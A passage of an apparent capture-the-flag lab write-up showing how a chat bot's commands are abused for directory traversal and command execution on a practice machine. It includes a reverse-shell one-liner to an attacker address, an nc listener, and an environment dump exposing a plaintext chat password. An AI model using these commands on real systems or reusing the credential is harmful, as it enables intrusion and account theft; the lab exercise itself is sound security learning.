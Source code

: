 So if we ask him `list sale` he replys with:
```bash
 Fetching the directory listing of /sales/
total 0
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 .
drwx------ 11 dwight dwight 281 Feb 6 07:51 ..
drwxr-xr-x 2 dwight dwight 27 Sep 15 13:03 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
```
But if we ask for something like `list sale; whoami`, then he simply replys with `STOP INJECTING OS COMMANDS`.
Another function he adds is `file reports.txt`, then he cats the file.
So we have two functions that each do `ls -la` and `cat`. 
If you use the list function, it doesn't sanitize our input to remove things like `../`, so we can directory traverse the filesystem to poke around.
...
Why not try run?
`run whoami` -> `Dwight`
We have code execution!
# Shell
I set up my NC listener `nc -nvlp 8080`
`run bash -i >& /dev/tcp/10.10.10.10/8080 0>&1`, we get shell!
I do reccommend taking a look at https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet . He has gathered everything you need.

So lets take a look at what we have, i run the env command to check out whats currently going on.

```bash
┌──(kali㉿kali)-[~/Documents/htb/paper]    
└─$ nc -nvlp 8080                                                                                         
listening on [any] 8080 ...                                                                               
connect to [10.10.10.10] from (UNKNOWN) [10.10.11.143] 46252

[recyclops@paper]$ env                      
RESPOND_TO_EDITED=true   
ROCKETCHAT_USER=recyclops            
_=/usr/bin/env                       
LANG=en_US.UTF-8                     
OLDPWD=/home/dwight/hubot            
ROCKETCHAT_URL=http://127.0.0.1:48320
ROCKETCHAT_USESSL=false      
XDG_SESSION_ID=1             
USER=dwight                  
NCAT_REMOTE_ADDR=10.10.14.231
RESPOND_TO_DM=true    
PWD=/home/dwight/hubot
HOME=/home/dwight                   
NCAT_REMOTE_PORT=8080               
PORT=8000                           
NCAT_LOCAL_PORT=46252               
ROCKETCHAT_PASSWORD=Queenofblad3s!23
SHELL=/bin/sh                                                                                             
SHLVL=5                                                                                                   
BIND_ADDRESS=127.0.0.1     
LOGNAME=dwight                
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1004/bus       
XDG_RUNTIME_DIR=/run/user/1004                              
PATH=/home/dwight/hubot/node_modules/coffeescript/bin:node_modules/.bin:node_modules/hubot/node_modules/.bin:/usr/bin:/bin
```